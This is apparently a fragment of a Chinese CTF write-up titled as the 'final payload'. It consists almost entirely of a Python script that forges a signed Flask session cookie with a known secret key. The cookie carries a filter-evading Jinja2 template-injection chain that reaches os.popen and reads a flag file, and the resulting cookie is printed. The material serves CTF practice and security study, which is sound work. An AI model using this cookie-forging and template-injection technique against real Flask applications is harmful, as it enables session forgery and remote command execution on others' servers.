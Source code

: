 最后的payload👇

```
from itsdangerous import base64_decode
import zlib
from flask.sessions import SecureCookieSessionInterface
import ast

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)

def decode(session_cookie_value, secret_key=None):
    try:
        if secret_key is None:
            compressed = False
            payload = session_cookie_value
            if payload.startswith('.'):
                compressed = True
                payload = payload[1:]
            data = payload.split(".")[0]
            data = base64_decode(data)
            if compressed:
                data = zlib.decompress(data)
            return data
        else:
            app = MockApp(secret_key)
            si = SecureCookieSessionInterface()
            s = si.get_signing_serializer(app)
            return s.loads(session_cookie_value)
    except Exception as e:
        return "[Decoding error] {}".format(e)

# 示例用法
secret_key = "y0u_n3ver_k0nw_s3cret_key_1s_newst4r"
cookie_structure = '{"user":"{%print(\'\'[\'_\'\'_cla\'\'ss_\'\'_\'][\'_\'\'_ba\'\'se_\'\'_\'][\'_\'\'_subclas\'\'ses_\'\'_\']()[117][\'_\'\'_in\'\'it_\'\'_\'][\'_\'\'_globa\'\'ls_\'\'_\'][\'po\'\'pen\'](\'more \\/y0U3_f14g_1s_h3re\')[\'read\']())%}"}'

encoded_cookie = encode(secret_key, cookie_structure)
print( encoded_cookie)
#.eJxNjEEKgzAURK9SAjJm1QYLhd6jqyhB218bSJOQr4si3l2DUtwNb2beJEamJO5iKmKyfigBDQOYp2sB5hzRbKjLhI6Ex27dccb7spRaqdteWw_Y4XjoXcgW9_fGAETy6xHfkOhU1-ff5VGZt7r2RrH5VIkgNRK1r2yXxSzmBUdLNh8.ZTiPOg.1fXG2DqLEfnDiPo2w106x4XAIVg
```
